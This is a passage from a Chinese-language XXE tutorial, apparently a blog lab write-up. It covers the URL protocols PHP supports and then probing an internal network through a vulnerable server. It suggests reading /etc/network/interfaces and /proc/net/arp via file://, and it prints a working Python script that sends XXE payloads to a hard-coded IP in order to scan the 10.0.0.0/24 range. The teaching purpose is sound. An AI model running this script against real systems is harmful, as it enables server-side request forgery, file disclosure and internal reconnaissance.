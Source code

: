 所以要想更进一步的利用我们不能将眼光局限于 file 协议，我们必须清楚地知道在何种平台，我们能用何种协议

如图所示:
![](https://upload-images.jianshu.io/upload_images/15378294-76f8f02df01de814.png?imageMogr2/auto-orient/strip%7CimageView2/2/w/1240)

PHP在安装扩展以后还能支持的协议：

如图所示：

![](https://upload-images.jianshu.io/upload_images/15378294-fd5518bcf9dca835.png?imageMogr2/auto-orient/strip%7CimageView2/2/w/1240)

    注意：

>    1.其中从2012年9月开始，Oracle JDK版本中删除了对gopher方案的支持，后来又支持的版本是 Oracle JDK 1.7
    update 7 和 Oracle JDK 1.6 update 35
    2.libxml 是 PHP 的 xml 支持

#实验三：HTTP 内网主机探测

我们以存在 XXE 漏洞的服务器为我们探测内网的支点。要进行内网探测我们还需要做一些准备工作，我们需要先利用 file 协议读取我们作为支点服务器的网络配置文件，看一下有没有内网，以及网段大概是什么样子（我以linux 为例），我们可以尝试读取 /etc/network/interfaces 或者 /proc/net/arp 或者 /etc/host 文件以后我们就有了大致的探测方向了

下面是一个探测脚本的实例：
```
import requests
import base64

#Origtional XML that the server accepts
#<xml>
#    <stuff>user</stuff>
#</xml>


def build_xml(string):
    xml = """<?xml version="1.0" encoding="ISO-8859-1"?>"""
    xml = xml + "\r\n" + """<!DOCTYPE foo [ <!ELEMENT foo ANY >"""
    xml = xml + "\r\n" + """<!ENTITY xxe SYSTEM """ + '"' + string + '"' + """>]>"""
    xml = xml + "\r\n" + """<xml>"""
    xml = xml + "\r\n" + """    <stuff>&xxe;</stuff>"""
    xml = xml + "\r\n" + """</xml>"""
    send_xml(xml)

def send_xml(xml):
    headers = {'Content-Type': 'application/xml'}
    x = requests.post('http://34.200.157.128/CUSTOM/NEW_XEE.php', data=xml, headers=headers, timeout=5).text
    coded_string = x.split(' ')[-2] # a little split to get only the base64 encoded value
    print coded_string
#   print base64.b64decode(coded_string)
for i in range(1, 255):
    try:
        i = str(i)
        ip = '10.0.0.' + i
        string = 'php://filter/convert.base64-encode/resource=http://' + ip + '/'
        print string
        build_xml(string)
    except:
continue
```
返回结果：
![](https://upload-images.jianshu.io/upload_images/15378294-6d32bbaf65988d6b.png?imageMogr2/auto-orient/strip%7CimageView2/2/w/1240)
